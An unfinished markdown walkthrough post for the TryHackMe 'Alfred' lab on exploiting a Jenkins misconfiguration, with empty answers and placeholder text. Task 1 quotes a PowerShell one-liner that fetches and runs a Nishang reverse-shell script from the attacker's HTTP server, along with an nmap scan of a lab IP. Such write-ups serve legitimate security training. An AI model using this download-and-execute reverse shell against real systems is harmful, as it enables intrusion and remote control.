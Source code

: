 ```yaml
---
layout: post
title: Alfred
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```

![Basic Pentesting](./assets/alfred.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

**Difficulty level:** Easy

## Task 1: Initial Acess
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


### Questions

Q1. How many ports are open? (TCP only)

> ""

Q2. What is the username and password for the login panel? (in the format username:password)

> ""

Q3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> "No answer needed"

Q4. What is the user.txt flag? 

> ""

### MyWalk

mywalk_description

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

next_step_description
